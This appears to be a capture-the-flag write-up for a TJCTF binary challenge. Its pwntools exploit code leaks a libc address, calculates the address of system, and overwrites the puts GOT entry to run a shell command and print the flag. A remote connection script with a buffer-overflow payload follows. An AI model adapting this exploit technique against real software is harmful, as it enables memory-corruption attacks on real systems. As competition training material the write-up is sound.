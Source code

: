 ```python
leaked_puts = parse_leaked_address(data)
print(hex(leaked_puts))
libc = ELF("libc.so.6")

print(f"LEAKED puts ADDR {hex(leaked_puts)}")

libc_base = leaked_puts - libc.sym["puts"]
system_addr = libc_base + libc.sym["system"]

print(f"CALCULATED LIBC BASE: {hex(libc_base)}")
print(f"CALCULATED SYSTEM ADDR {hex(system_addr)}")

top_digits = str(hex(system_addr))[2:6]
parsed_digits = bytes.fromhex(top_digits)[::-1]
print(parsed_digits)
bottom_digits = int(str(hex(system_addr))[6:], 16)
print(bottom_digits)

p.recvuntil(b"time? (1-24) ")
p.sendline(str(bottom_digits).encode())

p.recvuntil(b"Event name?")
p.sendline(parsed_digits)

p.interactive()
```

At the end, the program continues executing and `puts("cat flag.txt")` is now `system("cat flag.txt")`. This is because the GOT table will point to the code for system instead of puts since we overrode the address.

```
sh: 1: Syntax error: Unterminated quoted string
sh: 1: smhmh: not found
sh: 1: just: not found
tjctf{i_h0pe_my_tre3s_ar3nt_b4d_too}sh: 1: or: not found
```

final script:
```python
from pwn import *

#puts address location: 0x404008

context.terminal = ["alacritty", "-e"]

host = "tjc.tf"
port = 31509
p = remote(host, port)
#p = process("./chall")
#gdb.attach(p)

def parse_leaked_address(line):
    leaked = line.split(b":00 - ")[1].strip()
    leaked = leaked.split(b"\n")[0]
    loc = str(line).find(":00")
    addr_rest = str(line)[2:loc]
    return int(str(hex(u64(leaked.ljust(8, b'\x00')))) + str(hex(int(addr_rest)))[2:], 0)

p.recv()
p.sendline(b"1")
p.recv()
p.sendline(b"l" * 128 + p32(0x1337) + p64(0x404008))
p.recvuntil(b"ll7\x13\n")
data = p.recvline()
```